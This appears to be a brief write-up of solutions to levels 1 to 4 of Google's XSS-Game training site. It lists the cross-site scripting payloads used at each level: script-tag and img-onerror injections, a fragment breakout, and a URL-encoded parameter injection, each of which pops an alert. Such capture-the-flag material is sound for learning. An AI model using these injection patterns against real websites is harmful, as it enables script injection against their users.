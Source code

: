 # XSS-Game by Google

### Level 1
```
https://xss-game.appspot.com/level1/frame?query=<script>alert("HACKED")</script>
```

### Level 2
```
<img src="asdf" onerror='alert("HACKED")'/>
```

### Level 3
```
https://xss-game.appspot.com/level3/frame/#"/><img src='asdf' onerror='alert("HACKED")'/>
```

### Level 4
```
'**alert("HACKED"));//
?timer=%27**alert%28%22HACKED%22%29%29%3B%2F%2F
```

